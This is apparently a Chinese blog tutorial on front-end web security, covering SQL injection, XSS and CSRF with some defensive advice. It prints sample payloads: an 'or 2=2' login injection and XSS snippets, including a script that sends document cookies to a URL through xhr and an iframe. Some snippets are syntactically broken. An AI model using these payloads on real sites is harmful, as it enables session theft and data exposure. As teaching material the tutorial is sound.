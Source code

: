 现在前端肯定也需要知道安全问题，作为网站开发者，要保证基础的三点：
1. 保密性  
数据内容不能泄漏，加密是常用方法
2. 完整性  
数据内容不能被篡改，特别是现在oAuth盛行的年代，协议要求sign签名，就是保证双方数据完整。一旦信息被改会发生什么不言而喻
3. 可用性  
网站服务是可用的

## 常见前端攻击方式
DDos攻击，Dos攻击，SQL注入，XSS，CSRF等，D|Dos攻击是通过http协议本身特点，通过大量恶意请求导致服务器不能响应的攻击，防范这个问题需要运维或FireWall来做的，这里就不多说明，只简单说下FEer会接触到的几个。  
在此之前，不得不说一个概念：安全沙箱。不知道的可以度娘一下

### SQL注入
通过非法方式影响服务的正常有效运行，提供非正确的信息返回或不能正常服务。在前后端未进行分离的年代，sql注入是每个web开发者都需要熟知的。那时候访问的url就很容易猜到是哪个库表哪个操作，最著名的sql注入就是登录时user和password输入'1' or 2=2"' 如果没有对URI进行特殊符号转化，服务端sql脚本就可能出现
```
sql = "select * from user where user='1' or 2=2"' password='' " // 密码类似user的写法
```
sql查询条件是成立的，有可能会把整个库表的信息都返回，甚至也给暴力破解留下入口。  
现在FEer可以不用考虑这一点，但是请求地址还是可以在network里看到，适当的加密和偏移还是需要的。当然，后端的安防是最最重要的，这里只说前端，node的代理或后端对于前端脚本的请求拦截找机会再做分享。

### XSS（cross-site scripting）跨站脚本攻击  
从本站发起，这是首要条件，因为安全沙箱的限制，非本站脚本不能操作cookie或dom，那么它如果攻击呢？  
攻击方式：
+ 用户输入  
例如：在某个评论页，输入了非法代码，后端未转译，或前端直接innerHTML插入。那么网站的保密性就没有了，造成的结果：
```
// 可能是div可能是a，不设防就可以随意添加dom
<a style="display:block;position:absolute;width:100%;height:100%;" href="javascript:alert('xss');">测试链接</a>
// 各种脚本随意跑
<script>window.head[0].append(js code);alert("w");setTimeout(function(){xhr.get(url+cookie)},0);</script>
<iframe src="domain/getcookie/cookie">
// 通过xhr把cookie给攻击者，iframe等，所有的内容毫无疑问都是非法的，机密泄漏！
```

+ 第三方脚本引入  
症状和结果同“用户输入”，所以现在很多https网站下不能引用http的域名文件，就是防止http劫持带来的XSS问题。
+ 劫持  
页面或js脚本被追加了某些内容，例如广告；最常见的是SP运营商这么干

#### 防范手段 
前端几乎没有安全一说，即便是加密的js代码也是可以反编译，所有的内容几乎都暴露在浏览器里。所以对用户的输入都是不可信的，即便是加密的js代码也是可以反编译，针对用户的输入，需要后端配合业务进行针对性的过滤和转译；并且根据攻击类型（反射、存储引用、DOM）进行相应的规则，“<a, <script, <Script，\,',\" ”等等，练css其实也可以进行js的hack，最好用innerText而不是innerHTML。如果业务实在需要匹配规则作好，允许的情况下就别让代码执行。

### CSRF（cross-site request forgery）请求伪造  
从第三方站点发起，利用cookie伪造成你的合法请求；一般钓鱼网站会这么干。还是因为安全沙箱的关系，攻击者不能拿到sessionid或标明合法身份的sign，但在页面中利用你未过期的cookie就可以发起攻击（浏览器关闭cookie还能有效呢？yes，就是tmd有可能不过期），新建tab进行其他网站的浏览也是常态。
